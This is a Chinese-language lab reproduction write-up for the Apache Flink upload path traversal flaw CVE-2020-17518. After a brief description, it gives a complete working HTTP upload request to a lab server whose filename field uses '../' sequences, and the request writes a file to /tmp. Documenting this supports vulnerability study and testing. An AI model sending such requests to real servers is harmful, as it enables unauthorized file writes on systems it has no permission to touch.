



# Apache Flink 上传路径遍历 (CVE-2020-17518)

> 漏洞说明

​	Apache Flink 是一个开源的流处理框架，具有强大的流处理和批处理能力。

​	Apache Flink 1.5.1 引入了一个 REST 处理程序，允许通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统的任意位置。

> 前提条件


> 利用工具


> 漏洞复现

启动靶场，访问http://192.168.40.77:8081/可以看到 Apache Flink 主页



构造 payload 上传文件

```http
POST http://192.168.40.77:8081/jars/upload HTTP/1.1
Host: 192.168.40.77:8081
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
DNT: 1
Referer: http://192.168.40.77:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 184

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/tomato"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```



成功上传文件/tmp/tomato


